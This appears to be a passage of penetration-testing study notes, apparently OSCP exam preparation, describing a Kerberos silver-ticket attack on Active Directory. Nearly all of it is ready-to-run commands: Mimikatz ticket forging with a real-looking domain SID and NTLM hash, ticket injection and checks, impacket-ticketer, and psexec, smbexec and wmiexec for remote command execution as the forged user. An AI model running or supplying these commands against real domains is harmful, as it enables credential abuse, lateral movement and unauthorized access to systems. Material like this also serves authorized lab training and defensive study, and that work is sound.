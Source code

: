 2) Attack
	4) Mimikatz
		2) `kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jebadmin`
			1) Note: `jebadmin` (given user can be any existing user in the domain. If this doesn't work, try giving a user that is not the current user but exists in the domain)
			2) rc4 is the NTLM hash
3) Validate the new ticket is in-memory (thanks to above `/ptt` flag)
	1) `misc::cmd`
	2) Then, `klist`
4) Attempt to access after the attack `iwr -UseDefaultCredentials http://web04`
	2) For full page content:
```PowerShell
$response = Invoke-WebRequest -Uri "http://web04" -UseDefaultCredentials

$response.Content

# MSSQL
sqlcmd.exe -S DC01,1433
```

Good silver ticket resource:
https://github.com/brianlam38/OSCP-2022/blob/main/cheatsheet-active-directory.md
Silver Ticket via Compromised Host:
```PowerShell
# obtain SID of domain (remove RID -XXXX) at the end of the user SID string.
cmd> whoami /user
corp\example S-1-5-21-1602875587-2787523311-2599479668[-1103]

# generate the Silver Ticket (TGS) and inject it into memory
mimikatz > kerberos::golden /user:[user_name] /domain:[domain_name].com /sid:[sid_value] /target:[service_hostname] /service:[service_type] /rc4:[hash] /ptt

# abuse Silver Ticket (TGS)
cmd> psexec.exe -accepteula \\<remote_hostname> cmd  # psexec
cmd> sqlcmd.exe -S [service_hostname] #  if service is MSSQL
```
Silver Ticket via Kali
```bash
# generate the Silver Ticket with NTLM
$ impacket-ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# set the ticket for impacket use
$ export KRB5CCNAME=<TGT_ccache_file_path>

# execute remote commands with any of the following by using the TGT
$ python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
$ python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
$ python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

```bash
impacket-ticketer -nthash '6a1a9d1717c62ff7aaffceb943851b5d' -domain-sid 'S-1-5-21-2512333080-3128024849-3533006164' -domain "oscp.exam" -spn "mssql/DC01" -dc-ip 10.10.81.152 tom_admin
```

---
